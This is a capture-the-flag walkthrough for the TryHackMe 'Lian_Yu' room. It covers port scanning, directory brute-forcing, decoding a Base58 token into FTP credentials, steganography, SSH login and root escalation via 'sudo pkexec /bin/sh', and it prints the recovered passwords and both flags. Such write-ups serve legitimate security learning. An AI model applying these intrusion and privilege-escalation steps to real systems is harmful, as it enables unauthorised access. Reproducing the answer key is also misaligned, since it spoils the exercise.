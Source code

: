 # Lian_Yu

### #1 Deploy the VM and Start the Enumeration.
Just deploy the mashine.

### #2 What is the Web Directory you found?
nmap -sV -sC <ip>
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
80/tcp  open  http    Apache httpd
111/tcp open  rpcbind 2-4 (RPC #100000)

Run dirbuster to see if there is some hidden folders on the webserver
```
dirbuster 
/island/ (This page gave me a code word) 
/island/2100
```
The /island page gave me a code word
```
Code Word is: 
vigilante
```
The web Directory we found
```
2100
```

### #3 what is the file name you found?
In the source code of /2100 there is a clue with the extention .ticket.
So we use dirbuster and search for files with the extention.

```
/island/2100/green_arrow.ticket
```

### #4 what is the FTP Password?
The file gave us:
``` 
This is just a token to get into Queen's Gambit(Ship)

RTy8yhBQdscX 
```
Because its a "token", lets try to decode it.
```
sudo john thm/lian_Yu/codeFromGreenArrowFile.txt rockyou.txt
```
John diddnt give me anything..

Tryed some webpages and got this from Base64, everything else gave me nothing
```
E<¼Ê.PvÇ.
```

So maybe Base58 encoded?
```
!#th3h00d
```

### #5 what is the file name with SSH password?

Trying to logg into the ftp server using "The code word":
```
vigilante:!#th3h00d
```

Downloaded all the pictures, one of the pictures got a png header error.

```
hexeditor Leave_me_alone.png
```

Added the Png header
```
89  50  4e  47  0d  0a  1a  0a
```

The image gave me the password
```
password
```
Test if there is any hidden zip in the pictures
```
steghide extract -sf aa.jpg
password: password
```
Found a zip named ss.zip with two files, just tryed the filename as the answer to this question.
```
shado
```

### #6 User flag
Before when we were in the ftp server, checked if we could cd. Found another user, maybe the content of the shadofile was a password.
```
ssh slade:M3tahuman@<ip>
```
Cat out the user flag
```
cat /home/slade/user.txt
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
```

### #7 Root flag
Any files we can excecute as root without using password
```
sudo -l
(root) PASSWD: /usr/bin/pkexec
```
Exploit pkexec
```
sudo pkexec /bin/sh
```
Cat out the root flag
```
cat /root/root.txt
THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
```
